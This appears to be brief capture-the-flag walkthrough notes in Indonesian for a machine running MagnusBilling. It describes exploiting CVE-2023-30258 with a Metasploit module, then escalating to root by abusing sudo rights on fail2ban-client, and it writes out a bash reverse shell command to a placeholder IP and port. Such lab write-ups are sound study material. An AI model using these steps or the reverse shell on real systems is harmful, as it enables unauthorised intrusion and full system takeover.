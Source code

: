# boot :
1. scan nmap 22 80 ada -> fuzz 2 2 nya -> cek framework nya
2. ada nih: https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/magnusbilling_unauth_rce_cve_2023_30258.rb
3. wget aja taruh di /usr/share metasploit exploit linux http dah -> msfconsole search magnus
4. use aja taruh ip ipmu dah 
5. dapet shell revshell aja -> klaim user flag

# PE :
1. sudo -l ada tapi gatau -> cari wu aja
2. sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'"
3. kalau udah -> sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1 
4. sambil nyalain nc sebelumnya
5. klaim root 
